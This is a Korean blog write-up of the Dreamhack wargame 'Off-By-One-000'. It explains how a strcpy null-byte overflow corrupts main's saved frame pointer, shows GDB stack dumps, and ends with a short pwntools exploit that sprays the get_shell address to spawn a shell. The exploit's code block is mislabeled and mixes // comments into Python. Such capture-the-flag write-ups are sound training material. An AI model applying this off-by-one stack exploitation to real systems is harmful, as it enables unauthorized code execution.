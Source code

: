```yaml
---
layout: post
subtitle: Off-By-One-000
comment: true
---
```


# [문제](https://dreamhack.io/wargame/challenges/9/writeups)

`strcpy`는 몇바이트까지 복사하라는 말 없이 널문자열을 만날때 까지 복사합니다. <br/>`cpy`함수 내의 버퍼가 256바이트 길이이고 복사된 문자열은 `256개의 char` + `\x00`이므로 1byte 오버플로가 납니다.
오버플로가 나는 위치는 main의 `SFP`입니다.

## GDB
```
EBP: 0xffffcf20 --> 0xffffcf28 --> 0x0 
ESP: 0xffffcf20 --> 0xffffcf28 --> 0x0 
EIP: 0x804864f (<cpy+3>:        sub    esp,0x100)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804864b <initialize+70>:   ret    
   0x804864c <cpy>:     push   ebp
   0x804864d <cpy+1>:   mov    ebp,esp
=> 0x804864f <cpy+3>:   sub    esp,0x100
   0x8048655 <cpy+9>:   push   0x804a060
   0x804865a <cpy+14>:  lea    eax,[ebp-0x100]
   0x8048660 <cpy+20>:  push   eax
   0x8048661 <cpy+21>:  call   0x8048470 <strcpy@plt>
[------------------------------------stack-------------------------------------]
0000| 0xffffcf20 --> 0xffffcf28 --> 0x0 
0004| 0xffffcf24 --> 0x804869e (<main+46>:      push   0x804a060)
0008| 0xffffcf28 --> 0x0 
0012| 0xffffcf2c --> 0xf7e00e91 (<__libc_start_main+241>:       add    esp,0x10)
```
`strcpy`의 실행 전 `cpy`의 스텍프레임 내에서 `SFP`가 `0xffffcf28`인 모습

---

```
EBP: 0xffffcf20 --> 0xffffcf00 --> 0x80485db (<get_shell>:      push   ebp)
```
`strcpy`실행 후 `SFP`가 `0xffffcf00`가 된 모습

여기서 main의 에필로그 상에서 `leave`가 실행될 때 `esp`는 `0xffffcf00`근처를 가리킨다.<br/>
따라서 `ret`또한 이 근처에 있을 가능성이 높다. 이에 따라서 페이로드를 `p32(get_shell_addr)*64`의 256바이트 문자열로 설정하는게 이론상 바람직하다.

---
## 유의점
`Ubuntu 18.04`기준 
```
GNU gdb (Ubuntu 8.1-0ubuntu3.2) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
```
위 `GDB`버젼에서는 제대로 실습하지 못한다.
`GDB`로 돌렸더니 `cpy`이후 `printf`를 처리하는 과정에서 `cpy`에서 우리가 덮어놓은 버퍼가 오염되는 문제가 발생한다. <br/>
하지만 `pwntools`로 직접 바이너리를 실행하면 이 문제가 발생하지 않기 때문에 문제를 푸는데는 지장이 없다.

---
## Esploit code

```ts
from pwn import*
p = process("./off_by_one_000")
// 제출시에는 remote에 hostname과 포트번호를 넣어주면 된다.
get_shell = 0x80485db
payload = p32(get_shell)*64 
p.sendline(payload)
p.interactive()
```
오염된 `SFP`근처에 목표`RET`가 있으므로 페이로드를 전부 `get_shell`주소로 하면 정답 확률이 높다.
